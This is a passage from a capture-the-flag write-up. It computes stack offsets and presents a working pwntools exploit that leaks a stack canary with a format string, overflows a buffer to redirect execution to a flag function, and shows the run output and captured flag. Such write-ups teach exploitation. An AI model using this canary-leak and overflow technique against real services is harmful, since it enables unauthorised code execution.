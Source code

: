 Above you can see clearly that we start to write at address `0x7fffffffe610`, and the return pointer is at `0x7fffffffe658`. Also, the flag function is at `0xe5894855`. As usual, I use python to do the subtraction and find the offset. I also find the number of characters we need to write before inserting the stack cookie.

```
Python 2.7.12 (default, Oct  8 2019, 14:14:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x7fffffffe658 - 0x7fffffffe610
72 # bytes before return pointer
>>> 0x7fffffffe648 - 0x7fffffffe610
56 # bytes before stack cookie
```

Now that we have all necessary information we can start to write an exploit. As you can see below, I used the [pwntools](https://github.com/Gallopsled/pwntools) library which made exploitation very easy.

{% highlight python %}
#!/usr/bin/env python

from pwn import *

r = remote('shell.actf.co', 20701)

# flag function address
flag = p64(0x400787)

# format string to leak stack cookie
r.sendline(';%17$p;')

# the stack cookie
cookie = int(r.recvuntil('tell me? ').split(';')[1], 16)

# full buffer overflow payload
payload = 'A' * 56 + p64(cookie) + 'A' * (72 - 56 - 8) + flag

# send the payload
r.sendline(payload)

# print the results
print(r.recvall())
{% endhighlight %}

Running the script gives the following.

```
root@9903d51849b1 /pwn# python exploit.py 
[+] Opening connection to shell.actf.co on port 20701: Done
[+] Receiving all data: Done (51B)
[*] Closed connection to shell.actf.co port 20701
actf{youre_a_canary_killer_>:(}
Segmentation fault
```

As you can see, the flag is `actf{youre_a_canary_killer_>:(}`!
